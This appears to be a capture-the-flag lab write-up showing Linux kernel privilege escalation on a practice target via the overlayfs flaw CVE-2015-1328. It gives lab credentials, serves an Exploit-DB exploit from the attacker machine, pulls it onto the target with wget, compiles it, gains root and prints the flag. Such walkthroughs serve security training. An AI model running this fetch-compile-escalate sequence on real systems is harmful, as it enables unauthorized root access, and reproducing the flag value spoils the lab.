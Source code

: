# What I Know About the Target
- 10.10.153.178 
- Low-Privilegde user credential: Username karen and Password Password1

# Tasks
- find and use the appropriate kernel exploit to gain root privileges on the target system
- find  the content of the flag1.txt file

# Performance
## Exploitation
### On my VM
- After enumerating the target machine with provided infomation, I found that the Linux kernel version of the system is 3.13.0-24-generic and has a known vulnerbility CVE-2015-1328
- Google to find the exploit code: Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation. Link: https://www.exploit-db.com/exploits/37292
- Download the code and move it to Desktop/

      root@ip-10-10-208-67:~# ls
      '=2.5,!=2.5.0,!=2.5.2,!=2.6'   Desktop        Postman   thinclient_drives
       37292.c                       Downloads      Rooms     Tools
       burp.json                     Instructions   Scripts
       CTFBuilder                    Pictures       snap
      root@ip-10-10-208-67:~# mv 37292.c Desktop/
      root@ip-10-10-208-67:~# cd Desktop/
      root@ip-10-10-208-67:~/Desktop# ls
       37292.c  'Additional Tools'   mozo-made-15.desktop   NetworkConfigs   Tools
  
- Run the SimpleHTTPServer Python module

      root@ip-10-10-208-67:~/Desktop# python -m SimpleHTTPServer
      Serving HTTP on 0.0.0.0 port 8000 ...
      10.10.153.178 - - [26/Apr/2025 00:38:49] "GET /37292.c HTTP/1.1" 200 -

### On the target machine
- ssh to the target machine

      root@ip-10-10-208-67:~# ssh karen@10.10.153.178
      The authenticity of host '10.10.153.178 (10.10.153.178)' can't be established.
      ECDSA key fingerprint is SHA256:2Jwy90uXhJ7tauI06IwaC9BDSjK9/HsuVGpB1CDYFvw.
      Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
      Warning: Permanently added '10.10.153.178' (ECDSA) to the list of known hosts.
      karen@10.10.153.178's password: 
      Welcome to Ubuntu 14.04 LTS (GNU/Linux 3.13.0-24-generic x86_64)

  
- Locate where I am and move to tmp/

      $ pwd
      /
      $ cd tmp/    
      $ pwd
      /tmp

- Use Wget to download the exploit code from my VM (sing the SimpleHTTPServer Python module) to the target system

      $ wget http://10.10.208.67:8000/37292.c
      --2025-04-25 19:38:49--  http://10.10.208.67:8000/37292.c
      Connecting to 10.10.208.67:8000... connected.
      HTTP request sent, awaiting response... 200 OK
      Length: 5119 (5.0K) [text/plain]
      Saving to: \u201837292.c\u2019
      
      100%[======================================>] 5,119       --.-K/s   in 0.03s   
      
      2025-04-25 19:38:49 (150 KB/s) - \u201837292.c\u2019 saved [5119/5119]
      
      $ ls
      37292.c
      $

- Compiling an exploit code by using gcc

      $ pwd 
      /tmp
      $ gcc 37292.c -o 37292

- The following result means that I logged in as root (user id = 0). How beautiful!

      # id
      uid=0(root) gid=0(root) groups=0(root),1001(karen)

- Now, it's time to find a secret aka flag in the root account

      # cd home/
      # ls
      matt
      # cd matt
      # ls
      Desktop    Downloads  Pictures	Templates  examples.desktop
      Documents  Music      Public	Videos	   flag1.txt
      # cat flag1.txt
      THM-28392872729920


  




        
